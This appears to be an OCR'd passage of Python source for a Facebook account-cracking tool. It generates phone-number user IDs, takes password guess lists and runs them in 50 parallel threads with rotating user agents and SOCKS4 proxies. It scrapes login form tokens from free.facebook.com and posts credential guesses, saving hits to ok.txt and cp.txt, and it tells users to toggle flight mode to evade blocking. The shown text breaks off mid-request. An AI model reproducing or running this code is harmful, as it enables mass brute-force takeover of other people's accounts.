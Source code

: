     os.system("clear")
    print(logo)
    print('[+] Example :  1,2,3,4,5,6,7,8,9**,Etc')
    linex()
    passx = int(input("[*] Enter Password Limit : "))
    HamiiID = []
    os.system('clear')
    print(logo)
    print('[+] Example : khan12345,bangladish,baloch,***Etc')
    linex()
    for bilal in range(passx):
        pww = input(f"[*] Enter Password {bilal+1} : ")
        HamiiID.append(pww)
    with ThreadPool(max_workers=50) as manshera:
        os.system('clear')
        print(logo)
        tl = str(len(user))
        print(' Total Acounts : '+tl)
        print(' Selected Code :\x1b[1;92m '+code)
        print('\x1b[1;91m If you no result use flight mode')
        linex()
        for love in user:
            pwx = [love[1:]]
            uid = code+love
            for Eman in HamiiID:
                pwx.append(Eman)
                pwx.append(love)
            manshera.submit(fcrack,uid,pwx,tl)
    linex()
    print('Crack process has been completed')
    print('Ids saved in ok.txt,cp.txt')
    linex()

#_

def fcrack(uid,pwx,tl):
	#print(user)
	global loop
	global cps
	global oks
	global ugen
	try:
		for ps in pwx:
			session = requests.Session()
			sys.stdout.write(f'\r\x1b[1;97m[\033[1;97mR1F4T\033[1;97m] %s|\x1b[1;92mOK:-%s \x1b[1;97m\r'%(loop,len(oks))),
			sys.stdout.flush()
			ua = random.choice(ugen)
			nip=random.choice(prox)
			proxs= {'http': 'socks4://'+nip}
			free_fb = session.get('https://free.facebook.com').text
			log_data = {
				"lsd":re.search('name="lsd" value="(.*?)"', str(free_fb)).group(1),
			"jazoest":re.search('name="jazoest" value="(.*?)"', str(free_fb)).group(1),
			"m_ts":re.search('name="m_ts" value="(.*?)"', str(free_fb)).group(1),
			"li":re.search('name="li" value="(.*?)"', str(free_fb)).group(1),
			"try_number":"0",
			"unrecognized_tries":"0",
			"email":uid,
			"pass":ps,
			"login":"Log In"}
			header_freefb = {'authority':'p.facebook.com',
			'upgrade-insecure-requests': '1',
			'viewport-width': '980',